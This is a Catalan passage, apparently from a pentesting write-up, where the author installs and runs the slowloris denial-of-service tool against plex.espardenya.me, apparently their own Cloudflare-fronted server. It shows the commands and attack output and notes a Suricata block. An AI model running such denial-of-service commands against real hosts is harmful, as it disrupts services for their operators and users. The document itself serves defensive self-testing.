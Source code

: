 ```bash
sudo pip3 install slowloris
slowloris plex.espardenya.me
```

Podem provar de fer un slowloris estàndard. Per defecte, enviarem 150 sockets al servidor. Al poc temps, ens ha aparegut una alerta a Suricata que ens ha bloquejat una direcció IP. No podem comprovar que aquest bloqueig sigui degut a aquest atac, però per hores podria quadrar.
```bash
[sirazazel@buzz ~]$ slowloris plex.espardenya.me
[04-08-2022 14:11:51] Attacking plex.espardenya.me with 150 sockets.
[04-08-2022 14:11:51] Creating sockets...
[04-08-2022 14:11:57] Sending keep-alive headers... Socket count: 150
[04-08-2022 14:12:12] Sending keep-alive headers... Socket count: 150
[04-08-2022 14:12:32] Sending keep-alive headers... Socket count: 150
[04-08-2022 14:12:52] Sending keep-alive headers... Socket count: 150
[04-08-2022 14:13:12] Sending keep-alive headers... Socket count: 150
```
<img src="..\assets\images\pentesting\cloudflare\slowloris_bloqueig_1.png" alt="Bloqueig direccions IP Suricata " width="700" style="display: block; margin-left: auto; margin-right: auto;"/>

Anem a revisar les estadístiques de Cloudflare. Ens han arribat 135 requests noves des d'Espanya en les darreres hores.
